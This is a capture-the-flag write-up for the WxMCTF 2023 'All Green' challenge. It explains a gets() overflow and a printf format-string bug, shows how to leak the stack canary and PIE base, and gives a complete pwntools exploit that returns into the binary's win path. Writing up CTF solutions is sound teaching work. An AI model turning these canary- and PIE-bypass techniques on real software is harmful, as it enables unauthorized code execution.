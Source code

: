 # All Green

---

> This problem is greener than grass. (which you should probably go touch)
> 
> nc toady.nyiyui.ca 2000

---

### Static Analysis

Looking at the provided source code, we can see that in the `func` function, there is both a buffer overflow via the `gets` function and a format string vulnerability via the usage of `printf` with no explicit format string. 

```c
void func(){
    printf("Every protection is enabled. Good luck.\n");
    char buf[0x20];
    gets(buf);
    printf(buf);
    printf("\n");
    gets(buf);
}
```

The program also hints to there being all protections enabled for the binary as we can see via the `checksec` command.

```
[*] 'WxMCTF 2023/pwn/All Green/green'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Finally, we have a win function _(albeit there being some additional checks)_ which we can easily return to.

### Exploit Strategy

In order to win, we want to call an offset of the win function to read the flag with minimum effort.

Before we can achieve that, we have to first leak our canary and leak the ELF address so that we can bypass both **CANARY** and **PIE**.

By doing some trial and error, we can find our offsets of `main+81` and `canary` to be at `%19$p` and `%15$p` respectively.

If we look at the disassembly of `finalcheck`, we want to find an address that is just before the `getenv` and after the whole bunch of annoying checks.

```
   0x5655634d <+73>:    lea    eax,[ebx-0x1fac]
   0x56556353 <+79>:    push   eax
   0x56556354 <+80>:    call   0x56556110 <getenv@plt>
   0x56556359 <+85>:    add    esp,0x10
   0x5655635c <+88>:    mov    DWORD PTR [ebp-0xc],eax
```

which we can find to be `finalcheck+73` which sets up the argument to `getenv`.

Finally, we also need to fix up `EBX` and `EBP` values before returning to `finalcheck+73` since `EBX` is used as a function pointer and `EBP` is needed to store variables on the stack.

We can write our exploit code as such

```python
from pwn import *

elf = ELF("./green")
p = process("./green")

p.sendline(b"%15$p.%19$p")
p.recvline()

# resolve leaks
canary, leak = [int(i, 16) for i in p.recvline().strip().split(b".")]
elf.address = leak - 81 - elf.sym.main

if args.GDB:
    gdb.attach(p)

payload = fit(
    {
        0x20: p32(canary),                      # FIX CANARY
        0x28: p32(elf.address + 0x3fb4),         # FIX EBX
        0x2C: p32(elf.address + 0x4200),        # FIX EBP
        0x30: p32(elf.sym.finalcheck + 73),     # WIN
    }
)
p.sendline(payload)

p.interactive()
```
